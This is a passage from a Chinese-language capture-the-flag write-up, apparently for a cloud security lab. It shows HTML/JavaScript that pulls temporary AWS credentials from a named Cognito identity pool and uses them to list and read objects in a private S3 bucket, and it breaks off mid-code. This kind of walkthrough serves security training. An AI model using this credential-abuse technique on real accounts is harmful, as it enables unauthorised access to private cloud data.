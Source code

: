 ```html
                var accessKeyId = AWS.config.credentials.accessKeyId;
                var secretAccessKey = AWS.config.credentials.secretAccessKey;
                var sessionToken = AWS.config.credentials.sessionToken;

                // 进行后续操作，如访问S3
                accessS3(accessKeyId, secretAccessKey, sessionToken);
            } else {
                // 凭证获取失败
                console.error('Error retrieving credentials: ' + err);
            }
        });
        // 使用临时凭证访问S3
        function accessS3(accessKeyId, secretAccessKey, sessionToken) {
            var s3 = new AWS.S3({
                accessKeyId: accessKeyId,
                secretAccessKey: secretAccessKey,
                sessionToken: sessionToken,
            });
            var params = {
                Bucket: 'wiz-privatefiles',
            };
            s3.getSignedUrl('listObjectsV2', params, function(err, data) {
                if (!err) {
                    // S3存储桶列表获取成功
                    console.log(data);
                } else {
                    // S3存储桶列表获取失败
                    console.error('Error listing S3 buckets: ' + err);
                }
            });
        }
    </script>
</body>
</html>
```

使用浏览器打开这个 HTML 文件，在 Console 中可以看到输出了一行地址。

<img width="800" src="/img/1688699225.png"></br>

访问它，就可以看到存储桶里的对象被列出了。

<img width="800" src="/img/1688699245.png"></br>

这里可以得知 FLAG 的 Key 是 flag1.txt，然后把代码修改下，改成读这个对象。

```html
<!DOCTYPE html>
<html>
<head>
    <title>Cognito JavaScript SDK Example</title>
    <script src="https://sdk.amazonaws.com/js/aws-sdk-2.100.0.min.js"></script>
</head>
<body>
    <script>
        // 初始化AWS SDK配置
        AWS.config.region = 'us-east-1';
        AWS.config.credentials = new AWS.CognitoIdentityCredentials({
            IdentityPoolId: 'us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b',
        });
        // 获取临时凭证
        AWS.config.credentials.get(function(err) {
            if (!err) {
                // 凭证获取成功
                var accessKeyId = AWS.config.credentials.accessKeyId;
```